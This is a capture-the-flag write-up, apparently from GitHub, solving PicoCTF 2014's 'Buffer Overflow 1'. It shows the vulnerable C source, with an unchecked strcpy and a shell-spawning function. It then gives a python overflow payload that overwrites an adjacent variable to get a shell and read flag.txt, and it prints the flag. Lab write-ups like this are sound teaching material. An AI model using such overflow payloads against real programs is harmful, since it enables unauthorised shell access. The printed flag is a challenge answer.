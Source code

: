 # Pico-CTF 2014: Buffer Overflow 1

**Category:** Binary Exploitation
**Points:** 50
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)
> This problem has a buffer overflow vulnerability! Can you get a shell, then use that shell to read flag.txt? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow1/overflow1.html), and the source can be found [here](overflow1.c).

## Write-up
[//]: # (> Your write up goes here.)
> As the problem suggests it is a buffer overflow problem, looking at source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

> We can see in the function vuln(char \*input) there is possibility of buffer overflow because strcpy() is copying into variable buf from variable input without checking input size. 
`char buf[16]` can store atmost 16 char including NULL, but strcpy will keep copying content from input to buf even if we provide more than 16 chars, it will store first 16 chars of input in buf then it will start writing on stack. 
Solution to get the flag is write `0xc0deface` in variable secret which will be just after the variable buf on stack, if we give input such that, of which first 16 chars are randomly anything but after that we give input what we want to write to secret whose hex value is`\xce\xfa\xde\xc0`, this is in reverse order because machine on which code is getting executed is little endian.

```
./overflow1 $(python -c 'print "A"*16+"\xce\xfa\xde\xc0"') 
$ id
uid=11066(pico1139) gid=1002(overflow1) groups=1017(picogroup)
$ cat flag.txt
ooh_so_critical
```

> Flag is **ooh_so_critical**

## Other write-ups and resources

* None
